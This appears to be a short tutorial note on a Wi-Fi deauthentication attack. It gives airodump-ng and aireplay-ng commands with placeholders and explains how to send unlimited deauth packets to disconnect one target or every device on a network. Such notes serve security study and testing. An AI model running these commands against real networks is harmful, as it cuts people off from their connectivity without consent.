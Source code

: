 ---
---

The attack is performed by changing our MAC to Target MAC and sending Disconnect Request to the Router  
Then acting as the Router and send disconnect packet to Target  
This attack can be performed on all networks. No need to know the connection key. No need to connect to the network as well

````bash
# Sniff the Network to attack
airodump-ng --bssid <router-bssid> --channel <channel> <interface> 
aireplay-ng --deauth 0 -a <router-bssid> -c <target-bssid> <interface>
````

By using `0` as value for `--deauth` we are saying send infinite deauth packets to target. We can use a number to limit the amount of packets sent.  
If we do not use `-c` flag in deauth attack then all devices on the network will be disconnected
